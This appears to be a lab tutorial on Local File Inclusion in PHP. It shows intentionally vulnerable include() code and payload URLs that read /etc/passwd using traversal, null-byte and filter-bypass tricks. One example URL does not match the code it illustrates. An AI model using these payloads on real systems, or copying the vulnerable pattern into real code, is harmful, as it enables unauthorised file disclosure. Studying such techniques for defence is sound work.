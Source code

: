 # Local File Inclusion (LFI)

LFI attacks often occur due to a lack of security awareness among developers. In PHP, functions like `include`, `require`, `include_once`, and `require_once` can lead to vulnerabilities. While this example focuses on PHP, LFI vulnerabilities can also occur in other languages such as ASP, JSP, or Node.js. LFI exploits follow similar concepts to path traversal.

## Exploiting LFI

### Scenario 1: Basic LFI

Consider a web application that allows users to select between two languages, EN and AR:

```php
<?php 
    include($_GET["lang"]);
?>
```

The above PHP code uses a GET request via the URL parameter `lang` to include a file. For example:
- `http://webapp.thm/index.php?lang=EN.php` loads the English page.
- `http://webapp.thm/index.php?lang=AR.php` loads the Arabic page.

If there is no input validation, an attacker can access any readable file on the server. For instance, to read the `/etc/passwd` file, the attacker can use:
- `http://webapp.thm/get.php?file=/etc/passwd`

### Scenario 2: Directory-Specified LFI

In another example, the developer specifies the directory inside the function:

```php
<?php 
    include("languages/". $_GET['lang']); 
?>
```

Here, the `include` function calls PHP pages only from the `languages` directory via the `lang` parameter. Without input validation, an attacker can manipulate the URL to include sensitive files. For example:
- `http://webapp.thm/index.php?lang=../../../../etc/passwd`

This payload exploits the lack of input validation to include files from outside the intended directory.

### Scenario 3: Error-Based LFI

In this scenario, we perform black box testing without access to the source code. Errors are significant in understanding how data is processed. For example, an invalid input like `THM` might produce an error disclosing the include function's behavior and the web application's directory path.

To exploit this, we use the `../` trick to traverse directories and the Null Byte (`%00`) to bypass file type restrictions. For example:
- `http://webapp.thm/index.php?lang=../../../../etc/passwd%00`

### Scenario 4: Filtered LFI

If the `/etc/passwd` file is filtered, we can bypass this using the Null Byte or directory traversal tricks. For example:
- `http://webapp.thm/index.php?lang=/etc/passwd/.`
- `http://webapp.thm/index.php?lang=/etc/passwd%00`

### Scenario 5: Input Validation

If the developer filters keywords or replaces `../` with an empty string, we can use multiple traversal sequences to bypass it. For example:
- `http://webapp.thm/index.php?lang=....//....//....//....//etc/passwd`

### Scenario 6: Defined Directory Inclusion

If the web application forces the include to read from a defined directory, we need to include the directory in the payload. For example:
- `http://webapp.thm/index.php?lang=languages/../../../../../etc/passwd`

